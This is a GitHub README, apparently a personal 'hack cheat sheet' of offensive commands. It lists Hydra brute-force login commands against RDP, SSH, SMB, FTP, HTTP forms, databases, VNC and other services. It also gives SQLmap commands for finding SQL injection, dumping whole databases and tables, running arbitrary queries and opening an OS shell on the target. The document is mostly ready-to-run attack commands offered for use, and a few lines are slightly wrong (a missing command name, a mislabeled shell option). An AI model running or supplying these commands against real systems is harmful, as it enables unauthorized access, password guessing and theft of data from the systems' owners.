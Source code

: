 # hack-Cheat-Sheets
This repo has a collection of snippets of codes and commands to help our lives! The main purpose is not be a crutch, this is a way to do not waste our precious time.


## Resources
i find these Repos very userfull 
- [Kali linux cheat sheet](https://github.com/NoorQureshi/kali-linux-cheatsheet)
- [Pentesting Tactics](https://hackviser.com/tactics/pentesting)
- [Windows Registry Attacks Cheat Sheet](https://infoseclabs.io/wp-content/uploads/simple-file-list/Windows-Registry-Attacks-Cheat-Sheet.pdf)

---
## Ninja Table
1. [Hydra cheat sheet](#1-Hydra-Cheat-Sheet)
2. [SQLmap Cheat sheet](#2-SQLmap-cheat-sheet)


---




## 1. Hydra Cheat Sheet


## RDP
```bash
hydra -V -f -L usernames.txt -P passwords.txt rdp://10.0.2.5 -V
```

## SSH

```bash
hydra -l root -P passwords.txt -f ssh://10.0.2.5 -V
```

## SMB

```bash
hydra -l Administrator -P passwords.txt -f smb://10.0.2.5 -V
```

## FTP

```bash
hydra -l root -P passwords.txt -f ftp://10.0.2.5 -V
```

## HTTP Basic Auth

```bash
hydra -L users.txt -P password.txt 10.0.2.5 http-get /login/ -V
```

## HTTP POST

```bash
hydra -L users.txt -P password.txt 10.0.2.5 http-post-form \
"/path/index.php:name=^USER^&password=^PASS^&enter=Sign+in:Login name or password is incorrect" -V
```

## IMAP

```bash
hydra -l root -P passwords.txt -f imap://10.0.2.5 -V
```

## MySQL

```bash
hydra -L usernames.txt -P pass.txt -f mysql://10.0.2.5 -V
```

## POP3

```bash
hydra -l USERNAME -P passwords.txt -f pop3://10.0.2.5 -V
```

## Redis

```bash
hydra -P password.txt redis://10.0.2.5 -V
```

## Rexec

```bash
hydra -l root -P password.txt rexec://10.0.2.5 -V
```

## Rlogin

```bash
hydra -l root -P password.txt rlogin://10.0.2.5 -V
```

## RSH

```bash
hydra -L username.txt rsh://10.0.2.5 -V
```

## RTSP

```bash
hydra -l root -P passwords.txt <IP> rtsp
```

## SMTP

```bash
hydra -l <username> -P /path/to/passwords.txt <IP> smtp -V
hydra -l <username> -P /path/to/passwords.txt -s 587 <IP> -S -v -V  # Port 587 for SMTP with SSL
```

## Telnet

```bash
hydra -l root -P passwords.txt [-t 32] <IP> telnet
```

## VNC

```bash
hydra -L /root/Desktop/user.txt -P /root/Desktop/pass.txt -s <PORT> <IP> vnc
```


## 2. SQLmap cheat sheet

### Installation 

    sudo apt install sqlmap

### Automatic Analysis

    sqlmap -u “https://target.com/page/”

> Use this method to get basic info if that particular page is vulnerable or not, Note its not always reliable


### Specifying the GET Request Parameter

    sqlmap -u “https://target.com/page?para1=val1&para2=val2”

> Use this when you are sure that when the website accepts that particular parameter

### Asking SQL map to Check if particular parameter is exploitable

    “https://target_site.com/page?p1=value1&p2=value2” -p p1

> Here P1 is the first parameter and using that -p followed by p1 asks SQLmap to check that particular parameter alone.


### Specifying the POST Request Parameter

    sqlmap -u “https://target.com/page/” --data="p1=val1&p2=val2"

> This is very important since lot of web apps use POST request instead of GET request

### When a web app uses Authenticated Session With Cookie or Header

    sqlmap -u “https://target_site.com/page/” --data="p1=value1&p2=value2" --cookie="Session_Cookie_Value"

> Get the Cookie Session for the browser's developer tools in the application section


    sqlmap -u “https://target_site.com/page/” --data="p1=val1&p2=val2" --headers="<------>"

##  Once you success fully exploit there is session thats created by SQLmap which you can use for direct connection

    sqlmap -u “https://target.com/page?p1=value1" -s SESSION-FILE.sqlite --dbs

> You can use this file from the home path of the SQLMap tool’s output directory.


## Exploitation Commands

If the SQL injection vulnerability is observed **positive** then you can use the following commands to Exploit the SQL injection vulnerability.

### List the databases

    sqlmap -u “https://target_site.com/page?p1=value1” --dbs

### List Tables of a particular Database

    sqlmap -u “https://target_site.com/page?p1=value1” -D TARGET_DB --tables

### List Columns of Table of a Database 

    sqlmap -u “https://target_site.com/page?p1=value1” -D TARGET_DB -T TARGET_TABLE --columns

### Dump Specific Data of Columns of Table  of Database 

    sqlmap -u “https://target_site.com/page?p1=value1” -D TARGET_DB -T TARGET_TABLE -C "Col1,Col2" --dump

### Fully Dump Table TARGET_TABLE of Database TARGET_DB

    sqlmap -u “https://target_site.com/page?p1=value1” -D TARGET_DB -T TARGET_TABLE --dump

### Dump full Database

    sqlmap -u “https://target_site.com/page?p1=value1” -D TARGET_DB --dump

### Run Custom Query on your own

    sqlmap -u “https://target_site.com/page?p1=value1” --sql-query "SELECT * FROM TARGET_DB;"

### Get  access to OS Shell

    sqlmap -u “https://target_site.com/page?p1=value1” --os-shell

### Get access to SQL shell

    sqlmap -u “https://target_site.com/page?p1=value1” --sqlmap-shell






